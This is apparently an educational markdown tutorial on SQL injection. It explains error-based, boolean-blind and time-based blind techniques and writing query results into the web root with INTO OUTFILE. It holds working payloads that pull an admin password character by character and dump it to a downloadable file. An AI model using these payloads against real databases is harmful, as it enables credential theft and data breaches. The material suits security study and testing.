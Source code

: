 You should try to look for classical SQL injection. They're easy to find. 

Sometimes you can look for **error based SQL injection**. Server will send us information that something that we have done is basically forbidden. For example:
CONVERT((SELECT Password FROM Users WHERE Username="Admin"), DATE);--
`` Conversion failed when trying to convert "dao1piyog912badg3" to data type "date"

You should also look out for **blind SQL injection**. When there is no feedback received we can use two types of SQL injection payloads:
**Time Delay SQL Injection** and **Boolean Exploitation SQL Injection**. 

**Boolean Exploitation SQL Injection** would work when based on true or false respond server shows ourselves something back. Based on that we can try to guess every data in all tables. 

For example imagine that premium user have banner with diamonds on their user page. It tells if user is premium by collecting cookie which contains user id and then looking for him in table of premium users.  GET request which contains that cookie could look something like this:
```
GET / 
Host: example.com
Cookie: user_id=2
```

```
SELECT * FROM PremiumUsers WHERE Id ='2';
```

If the request gets response with data we're working with premium user and we get diamond banner back. Now if our account is premium we can try to make additional logic that can provide us additional information:
```
2' UNION SELECT Id FROM Users 
Where Username = 'admin'
and SUBSTR(Password, 1, 1) = 'a';--
```
If server returns true that means that admin password starts with an a. 

**Time Based or Time Delay SQL Injection** is similar but it  depends on time-based cue instead of visual-cue. If the Boolean SQL Injection doesn't return visual cue we have to be depended on time- based cue. We actually make a request that times us out for some seconds if the query returns true. 

Basically:
```
2' UNION SELECT
IF(SUBSTR(Password, 1, 1) = 'a', SLEEP(10), 0)
Password FROM Users 
Where Username = 'admin'
```
If we guess correctly first letter of admins password the query will sleep for 10 seconds before returning.

### **Exfiltrate Data by using SQL Injection**
Sometimes SQL Injection can be completely blind, but it will do real damage. For example it can use provided data on backend operations, so we don't have response if it worked or not. In this case we should force data base to save information in some place on the server. For example following query 
```
SELECT Password FROM Users WHERE Username='admin'
INTO OUTFILE '/var/www/html/output.txt'
```
It is default catalogue for internet webpages for wide variety of linux servers. Then we can gain access to this file by going to https://example.com/output.txt.
